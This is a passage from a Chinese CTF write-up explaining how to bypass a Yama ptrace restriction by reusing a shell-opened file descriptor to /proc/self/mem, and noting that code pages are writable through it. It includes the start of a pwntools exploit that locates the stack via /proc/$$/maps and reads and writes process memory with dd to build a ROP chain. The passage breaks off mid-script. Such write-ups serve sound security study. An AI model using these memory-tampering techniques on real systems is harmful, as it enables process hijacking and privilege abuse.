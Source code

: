 对于 `CONFIG_SECURITY_YAMA` 开启的场景，默认设置下，子进程调试父进程是不被允许的，所以也不能打开父进程的 `/proc/[pid]/mem` 文件：
```
$ dd if=/proc/$$/mem
dd: failed to open '/proc/228238/mem': Permission denied
```

这点需要利用一些奇妙语法绕过：
```
$ exec 3<>/proc/self/mem
$ ls /proc/self/fd/3 -al
lrwx------ 1 linux linux 64 Oct 21 00:28 /proc/self/fd/3 -> /proc/141090/mem
$ dd <&3
dd: error reading 'standard input': Input/output error
```

第一行的 `exec` 打开了 `/proc/self/mem` （这里 `self` 是 shell 本身），然后通过重定向（实际上通过 `dup` 系统调用复制文件描述符），让 `dd` 直接访问到了已经打开的 `mem` 文件（属于 shell 进程）。重定向过程不涉及文件打开，故其并无权限检查。最后得到了 `Input/output error` 是因为没有给 `dd` 指定正确的偏移，所以它访问的地址无效，这一点可以结合 `/proc/[pid]/maps` 的信息轻松解决。

还有一个值得一提的“特性”：通过 `/proc/[pid]/mem` 实际上能直接写代码段，虽然代码段是只读映射的，这是因为内核在处理写请求时候传递了一个 `FOLL_FORCE` 的参数，具体可以参考 [这篇文章](https://blog.cloudflare.com/diving-into-proc-pid-mem/) 。

但出题人并没有注意到最后这个特性，所以通过覆盖栈里的返回地址实现的 ROP ，因此利用程序比较繁琐。

利用程序如下（也可在 [这里](source/exploits/exp2.py) 找到）：
```python
#!/usr/bin/env python3

from pwn import *

p = process('deploy/run.sh')

p.sendlineafter(b'Enter your choice: ', b'2')
p.recvuntil(b'/ $ ')

def sys(cmd):
    p.sendline(cmd.encode())
    res = p.recvuntil(b'/ $ ')
    return res.split(b'\n', 1)[1][:-4]

def stack_top():
    res = sys('cat /proc/$$/maps | grep stack')
    addr = res.split()[0].split(b'-')[1]
    return int(addr.decode(), 16)

def open_mem():
    sys('exec 3<>/proc/self/mem')

def read_mem(sz, off=0):
    if off < 0:
        off += 2**64
    res = sys(f'dd bs=1 count={sz} skip={off} <&3')
    return res[:sz]

def seek_mem(off):
    read_mem(0, off)

def write_mem(val, off=0):
    if off < 0:
        off += 2**64
    p.sendline(f'dd bs=1 count={len(val)} seek={off} >&3'.encode())
    p.sendline(val)

open_mem()

BLK_SZ = 4096
ok = False
```